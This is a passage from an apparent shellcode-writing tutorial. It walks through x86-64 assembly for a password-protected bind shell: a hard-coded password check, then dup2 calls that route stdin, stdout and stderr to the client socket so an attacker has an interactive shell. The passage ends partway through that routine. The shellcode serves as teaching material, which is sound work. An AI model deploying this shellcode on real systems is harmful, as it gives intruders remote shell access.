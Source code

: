 ```nasm
    ; call read()
    syscall

    pop rbx
    mov rax, 0x0a32322174636272
    xor rax, rbx
    jz IO_Redirection

ExitWrongPassword:

    xor eax, eax
    add eax, 60
    syscall
```

<figcaption class="figure-caption">Checking the password sent by the client</figcaption>

If the flag `ZF` isn't set after the `XOR` operation, it means the password sent by the client is different from the hard-coded password (`rbct!22`` `followed by a newline).

In that case, the shellcode enters the `ExitWrongPassword` routine, ending the execution of the shellcode.

### I/O Redirection

Now you may ask: `why the need for I/O redirection? Can't we just spawn a shell and be done with it?`

Well, the answer is **no**. If we were to spawn a shell right away, the input and the output of the shell would be bound to the local system.

This means that the attacker wouldn't be able to execute commands, as the input of the client socket won't be redirected to the system shell. 

Similarly, the attacker wouldn't be able to receive the output of the commands executed from the shell since the output is not redirected to the client socket.

For this reason, we're going to redirect `input`, `output`, and `error`, in order to provide the attacker an interactive shell.

To do this, we can take advantage of the syscall `dup2`:

<figure class="kg-card kg-bookmark-card"><a class="kg-bookmark-container" href="https://man7.org/linux/man-pages/man2/dup.2.html"><div class="kg-bookmark-content"><div class="kg-bookmark-title">dup(2) - Linux manual page</div><div class="kg-bookmark-description"></div><div class="kg-bookmark-metadata"><span class="kg-bookmark-author">Linux manual page</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://man7.org/tlpi/cover/TLPI-front-cover-vsmall.png" alt=""></div></a>

In particular, using this syscall it's possible to redirect `stdin`, `stdout`, and `stderr` of the program running the shellcode towards the file descriptor of the client socket.

Follows the assembly code for this routine:

```nasm
IO_Redirection:

    xor ecx, ecx
    mul rcx
    add ecx, 2

DuplicateFileDescriptor:

    ; 1st argument of dup2(), file descriptor of the client socket, should be unchanged (RDI)
    ; 2nd argument of dup2(): file descriptor to redirect: stdin/stdout/stderr
    ; in this case the value is stored inside RCX -> 2,1,0
    push rcx
    
    ; syscall: dup2()
    push rdx
    pop rax
    add eax, 33

```